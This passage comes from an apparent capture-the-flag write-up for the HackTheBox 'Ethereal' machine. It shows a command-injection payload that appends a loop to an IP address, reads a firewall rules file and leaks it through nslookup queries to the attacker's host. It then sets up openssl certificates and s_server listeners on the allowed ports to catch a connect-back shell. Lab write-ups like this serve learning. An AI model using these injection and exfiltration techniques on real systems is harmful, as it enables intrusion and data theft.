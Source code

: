 `10.10.xx.xx & for /f "tokens=1,2,3,4,5,6,7" %a in ('type C:\Users\Public\Desktop\Shortcuts\firewall.txt') do nslookup %a.%b.%c.%d.%e.%f.%g 10.10.xx.xx`
![](/images/hackthebox/ethereal/42.png)
<br> It's only allowing TCP conections to port `73` and `136` , we saw earlier that openssl was installed on the box , we can create a `SSL/TLS server` on these ports and use openssl to make the box connect back to us.
<br>
<hr>
## Generating certs and setting up the server
<br> First step is to generate certificates because we need them to set up the server
`openssl req -x509 -newkey rsa:4096 -keyout key.pem -out certificate.pem -days 365 -nodes`
![](/images/hackthebox/ethereal/43.png)
<br> Then we will split our terminal and run 2 servers , one on port 73 and the other on port 136 
`openssl s_server -key key.pen -cert certificate.pem -quiet -port [port]`